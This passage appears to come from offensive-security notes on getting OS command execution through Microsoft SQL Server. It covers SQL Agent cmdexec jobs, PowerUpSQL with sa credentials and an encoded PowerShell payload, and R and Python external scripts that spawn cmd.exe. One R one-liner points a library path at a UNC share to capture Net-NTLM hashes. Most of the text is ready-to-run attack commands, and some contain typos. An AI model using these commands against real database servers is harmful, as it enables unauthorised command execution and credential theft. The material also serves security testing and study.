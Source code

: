     EXEC sp_add_jobstep @job_name = N'cmdjob', @step_name = N'test_cmd_name1', @subsystem = N'cmdexec', @command = N'cmd.exe /k calc', @retry_attempts = 1, @retry_interval = 5

    EXEC dbo.sp_add_jobserver @job_name = N'cmdjob'

    EXEC dbo.sp_start_job N'cmdjob';
    -- EXEC dbo.sp_delete_job @job_name = N'cmdJob'
    ```
  - Microsoft ActiveX Script (VBScript and Jscript)
  - SSIS (SQL Server Integrated Services)
- PowerUpSQL
    ```powershell
    Invoke-SQLOSCmdAgentJob –Subsystem PowerShell -Username
    sa -Password pw -Instance instance -Command
    "powershell -e <base64encodedscript>" -Verbose
    -Subsystem CmdExec
    -ubsystem VBScript
    -Subsystem Jscript
    ```
    ```powershell
    Get-SQLAgentJob -Instance instance -username sa -Password pw -Verboe]se
    ```

### External Scripting

- R introduced in SQL Server 2016
- Python introduced in SQL Server 2017
- Runtime environments must be installed as a prerequisite. Not on by default. Needs SQL server service restart.
- Needs `sysadmin` privileges to be enabled and executed.
- Runs with privileges of a dynamically created Windows user account (member of the `SQLRUserGroup`).
- References:
  - <https://docs.microsoft.com/en-us/sql/advanced-analytics/tutorials/rtsql-using-r-code-in-transact-sql-quickstart>
  - <https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server>
  - <https://gist.github.com/james-otten/63389189ee73376268c5eb676946ada5>
  - <https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server>
- Executing commands with R:
    ```sql
    sp_configure 'external scripts enabled'
    GO
    EXEC sp_execute_external_script
    @language=N'R',
    @script=N'OutputDataSet <- data.frame(system("cmd.exe
    /c dir",intern=T))'
    WITH RESULT SETS (([cmd_out] text));
    GO
    ```
- Grab Net-NTLM hashes with R:
    ```sql
    @script=N'.libPaths("\\\\testhost\\foo\\bar");library("0mgh4x")'
    ```
- Using shell instead of system: <https://pastebin.com/zBDnzELT>
    ```
    @script=N'OutputDataSet <- data.frame(shell("dir",intern=T))'
    ```
- Executing commands with Python:
    ```sql
    EXEC sp_execute_external_script
    @language =N'Python',
    @script=N'import subprocess
    p = subprocess.Popen("cmd.exe /c whoami",
    stdout=subprocess.PIPE)
    OutputDataSet = pandas.DataFrame([str(p.stdout.read(),